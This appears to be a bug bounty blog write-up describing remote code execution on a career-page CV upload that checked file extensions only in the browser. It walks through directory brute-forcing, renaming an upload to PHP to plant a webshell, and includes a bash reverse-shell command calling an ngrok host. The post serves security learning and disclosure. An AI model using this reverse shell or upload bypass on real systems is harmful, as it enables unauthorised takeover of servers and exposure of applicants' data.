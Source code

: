 ```yaml
---
title: "RCE via File Upload"
layout: post
date: 2021-04-07 12:00
tag:
- Remote Code Execution
- Misconfiguration
description: Remote Code Execution Due to Unrestricted File Upload.
---
```


# Remote Code Execution
Remote code execution (RCE) refers to the ability of a cyber attacker to access and make changes to a computer owned by another, without authority and regardless of where the computer is geographically located. RCE allows an attacker to take over a computer or a server by running arbitrary malicious software (malware).

Found a target using google dorks which having a responsible disclosure program. Let’s consider the target as abc.com the target website. During recon, I found that the target company owns 7 subdomains and each of them is integrated with the parent domain abc.com with some functionalities.

So I quickly started doing directory brute-forcing to figure out the directories and guess what the website is fully made up of PHP, so if I found a way to upload a php file I can get a reverse shell. The website having a career page which we can upload pdf file as a resume.

At the time of my recon, I found an uploads folder which contains all the uploaded documents of peoples who applied for jobs through this career page.

**Directory brute-forcing using dirsearch**
![img](1.webp)

**Index of uploaded files**
![img](2.webp)

So I quickly directed to the https://www.abc.com/careers.php careers page and checked the CV upload functionality but the application is validating the file extensions at the front end only.

**validating file extension at frontend**
![img](3.webp)

So I quickly downloaded the PHP webshell and uploaded successfully

![img](4.webp)

All required information are filled and click submit then intercepted the request and changed the file extension from pdf to PHP

**uploaded webshell**
![img](5.webp)

Then I quickly directed to the uploaded shell file location to trigger the PHP web shell.

**webshell**
![img](6.webp)

Finally, the webshell is working perfectly. To get a reverse shell we can upload the reverse shell instead of the webshell or we can simply use the below command on the web shell console to get access via port forwarding by using ngrok services.

### PHP webshell
[GitHub Repo](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Rev-shell/php_web_shell.php)

## Getting Reverse Shell
- Enable port forwarding
- Listen to forwarded port using Netcat

**port forwarding setup using ngrok**
![img](7.webp)

Now the port forwarding is completed we can get the shell by executing the following command in the webshell input field

`bash -i >& /dev/tcp/0.tcp.ngrok.io/1000 0>&1`

**execute reverse connection via bash**

![img](8.webp)

Now we got the reverse shell successfully.

![img](9.webp)

Thank you for reading.

Follow me on Twitter : [thevillagehacker](https://twitter.com/thevillagehackr)